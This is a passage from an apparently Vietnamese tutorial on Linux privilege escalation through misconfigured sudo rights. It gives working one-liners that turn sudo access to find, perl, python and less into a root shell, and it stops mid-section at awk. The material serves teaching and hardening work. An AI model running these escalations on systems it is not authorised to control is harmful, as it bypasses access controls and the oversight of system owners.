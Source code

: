 #### 3.1.1 - Using Find Command
Như chúng ta đã biết phía trên, user **nghia** được config trong sudoers file với nội dung:
```
nghia ALL=(root) NOPASSWD: /usr/bin/find
```
Administrators của hệ thống quá là bủn xỉn, chỉ cho tôi quyền tìm kiếm (find), đã vậy Root luôn cho bõ ghét:
```
 sudo find /(thư mục nào đó) -exec /bin/bash \;
```
hoặc:
```
sudo find /bin -name nano -exec /bin/sh \;
```
![](https://images.viblo.asia/75d0abfa-d6c6-448f-975b-557475a9e542.png)

### 3.2 Khi đặc quyền root được gán cho Binary Programs
Đôi khi ông Administrators vui tính lại cho tôi một số quyền hạn chế với một số chương trình xác định để coding, chỉnh sửa file..., nếu nó là một trong số những chương trình sau, chẳng khác nào tôi đã có quyền root ở bất cứ nơi nào:
```
nghia ALL= (root) NOPASSWD: /usr/bin/perl, /usr/bin/python, /usr/bin/less, /usr/bin/awk, /usr/bin/man, /usr/bin/vi
```
#### 3.2.1 Using Perl
```
/usr/bin/perl
```
Command:
``` sudo perl -e 'exec "/bin/bash";' ```

![](https://images.viblo.asia/9bcc30a7-3758-4530-bf38-26afe097c75f.png)



#### 3.2.2 Using Python
```
/usr/bin/python
```
Command:
```sudo python -c 'import pty;pty.spawn("/bin/bash")'```

![](https://images.viblo.asia/735f37ed-ecf3-4ebf-937a-0d9031cb85eb.png)


#### 3.2.3 Using Less Command
```
/usr/bin/less
```
Command:
```
sudo less /etc/hosts
```

sau đó gõ **!bash** và ấn Enter:

![](https://images.viblo.asia/899d588a-d0da-49d6-9957-485d5900ace1.png)

Escape thành công:
![](https://images.viblo.asia/2f8b3cf0-ba6a-40b9-83f5-51d2c172069d.png)
#### 3.2.4 Using AWK
```
/usr/bin/awk
```
Command:
```